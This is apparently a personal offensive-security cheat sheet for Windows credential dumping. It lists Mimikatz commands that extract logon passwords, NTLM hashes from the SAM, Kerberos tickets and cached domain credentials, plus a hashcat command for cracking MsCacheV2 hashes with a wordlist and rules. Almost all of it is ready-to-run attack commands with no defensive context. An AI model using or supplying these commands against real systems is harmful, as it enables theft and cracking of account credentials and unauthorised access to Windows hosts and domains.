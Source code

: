 #dumping #windows #tool  
### Oneliner

```powershell
.\mimikatz.exe "privilege::debug" "log Admin.log" "sekurlsa::logonpasswords" exit
```

### NTLM Hash Dump

```powershell
privilege::debug
```

```powershell
log cleartext.log
```

```powershell
token::elevate
```

```powershell
lsadump::sam 
```

0r
```powershell
sekurlsa::logonpasswords
```

```powershell
sekurlsa::tickets
```

```powershell
lsadump::cache
```

if nothing works

https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49

#### Cracking MsCacheV2

```cmd
hashcat.exe -a 0 -m 2100 hashcat.hash rockyou.txt -r rules\best64.rule
```

Format 

```
$DCC2$10240#username#hash
```


https://tinyapps.org/docs/domain-cached-credentials.html